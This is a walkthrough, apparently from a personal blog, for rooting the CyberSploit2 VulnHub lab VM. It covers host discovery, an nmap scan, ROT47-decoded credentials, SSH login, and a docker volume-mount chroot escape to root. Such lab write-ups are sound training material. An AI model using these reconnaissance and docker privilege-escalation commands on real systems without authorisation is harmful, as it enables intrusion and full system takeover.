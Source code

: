 ```yaml
---
title: "CyberSploit 2 VulnHub Walkthrough"
description: "Gain root access on the CyberSploit2 VM with this guide on IP discovery, port scanning, and privilege escalation."
date: 2024-07-29
categories: [CTF, VulnHub]
tags: [privilege escalation]
image:
  path: https://i.ytimg.com/vi/lQKO0zqyDpI/maxresdefault.jpg
---
```



This walkthrough guides you through the process of gaining root access on the CyberSploit2 boot2root virtual machine (VM) from Vulnhub. CyberSploit2 is the second part of the CyberSploit Series.

## Download the VM

- **Download the CyberSploit2 VM (size: 1.2 GB)** 
  - [Download Now](https://download.vulnhub.com/cybersploit/CyberSploit2.ova)

## Walkthrough

### 1. Discover Target Machine IP Address

Once the VM is running, determine its IP address using the 'arp-scan' utility:

```bash
┌──(root㉿neo)-[~]
└─# arp-scan -l
Interface: wlan0, type: EN10MB, MAC: 50:c2:e8:43:93:3b, IPv4: 192.168.1.8
Starting arp-scan 1.10.0 with 256 hosts (https://github.com/royhills/arp-scan)
192.168.1.4	08:00:27:ee:18:51	PCS Systemtechnik GmbH

4 packets received by filter, 0 packets dropped by kernel
Ending arp-scan 1.10.0: 256 hosts scanned in 2.003 seconds (127.81 hosts/sec). 1 responded
```

### 2. Scan for Open Ports

Use Nmap to scan for open ports on the target machine (replace `<target_IP>` with the VM's IP address obtained in the previous step):

```bash
┌──(root㉿neo)-[~]
└─# nmap -A 192.168.1.4
Starting Nmap 7.94SVN ( https://nmap.org ) at 2024-04-15 08:47 IST
Nmap scan report for 192.168.1.4
Host is up (0.00053s latency).
Not shown: 998 closed tcp ports (reset)
PORT   STATE SERVICE VERSION
22/tcp open  ssh     OpenSSH 8.0 (protocol 2.0)
| ssh-hostkey: 
|   3072 ad:6d:15:e7:44:e9:7b:b8:59:09:19:5c:bd:d6:6b:10 (RSA)
|   256 d6:d5:b4:5d:8d:f9:5e:6f:3a:31:ad:81:80:34:9b:12 (ECDSA)
|_  256 69:79:4f:8c:90:e9:43:6c:17:f7:31:e8:ff:87:05:31 (ED25519)
80/tcp open  http    Apache httpd 2.4.37 ((centos))
| http-methods: 
|_  Potentially risky methods: TRACE
|_http-title: CyberSploit2
|_http-server-header: Apache/2.4.37 (centos)
MAC Address: 08:00:27:EE:18:51 (Oracle VirtualBox virtual NIC)
Device type: general purpose
Running: Linux 3.X|4.X
OS CPE: cpe:/o:linux:linux_kernel:3 cpe:/o:linux:linux_kernel:4
OS details: Linux 3.2 - 4.14
Network Distance: 1 hop

TRACEROUTE
HOP RTT     ADDRESS
1   0.53 ms 192.168.1.4

OS and Service detection performed. Please report any incorrect results at https://nmap.org/submit/ .
Nmap done: 1 IP address (1 host up) scanned in 7.92 seconds
```

### 3. Enumerate HTTP Service

Explore the identified HTTP service (e.g., browse to `http://<target_IP>` in a web browser).

![Webpage Screenshot](https://github.com/f141ne0/f141ne0.github.io/assets/165682600/655ba6b0-cc80-4aa0-b954-af52a31cda0f)

Here on Line 4 of the webpage, hashes `D92:=6?5C2` & `4J36CDA=@:E` are found.

![Source Code Screenshot](https://github.com/f141ne0/f141ne0.github.io/assets/165682600/69ec26be-98dd-4b62-9472-25bd5ddea149)

The webpage source code at line 126 contains `<!-- ROT47 -->` hint for line 4 hash in ROT47 format.

#### Let's Crack The Hash Using ROT47

```bash
┌──(root㉿neo)-[~]
└─# echo "D92:=6?5C2" | tr '!-~' 'P-~!-O'

shailendra
```

Cracking the Second Hash:

```bash
┌──(root㉿neo)-[~]
└─# cat hash.txt | tr '!-~' 'P-~!-O'       

cybersploit1
```

The hashes are cracked:
- Username: `shailendra`
- Password: `cybersploit1`

#### 4. Login to SSH

Attempt to login to SSH using the discovered credentials:

```bash
┌──(root㉿neo)-[~]
└─# ssh shailendra@192.168.1.4
shailendra@192.168.1.4's password: 
Last login: Mon Apr 15 08:34:27 2024 from 192.168.1.8
[shailendra@localhost ~]$ 
```

#### 5. Obtain User Flag

Explore the user account for further clues and locate the user flag.

```bash
[shailendra@localhost ~]$ ls
hint.txt
[shailendra@localhost ~]$ cat hint.txt
docker
[shailendra@localhost ~]$ 
```

#### 6. Escalate Privileges via Docker

Search for Docker-related vulnerabilities using [GTFOBins](https://gtfobins.github.io/gtfobins/docker/).

![GTFOBins Screenshots](https://github.com/f141ne0/f141ne0.github.io/assets/165682600/5cd3822f-3ae5-4ff1-bb5b-c614b26729e8)

Execute Docker commands to escalate privileges to root:

```bash
[shailendra@localhost ~]$ docker run -v /:/mnt --rm -it alpine chroot /mnt sh
Unable to find image 'alpine:latest' locally
latest: Pulling from library/alpine
4abcf2066143

: Pull complete 
Digest: sha256:c5b1261d6d3e43071626931fc004f70149baeba2c8ec672bd4f27761f8e1ad6b
Status: Downloaded newer image for alpine:latest
sh-4.4# 
```

#### 7. Find the Root Flag

Navigate to the `/root` directory and locate the root flag:

```bash
sh-4.4# ls /root
anaconda-ks.cfg  flag.txt  get-docker.sh  logs
sh-4.4# cat /root/flag.txt
__    ___   _      __    ___    __   _____  __  
/ /`  / / \ | |\ | / /`_ | |_)  / /\   | |  ( (` 
\_\_, \_\_/ |_| \| \_\_/

 |_| \ /_/--\  |_|  _)_) 

 Pwned CyberSploit2 POC

share it with me twitter@cybersploit1

              Thanks ! 
sh-4.4# 
```

## Conclusion

Congratulations! You have successfully rooted the CyberSploit2 VM from VulnHub.

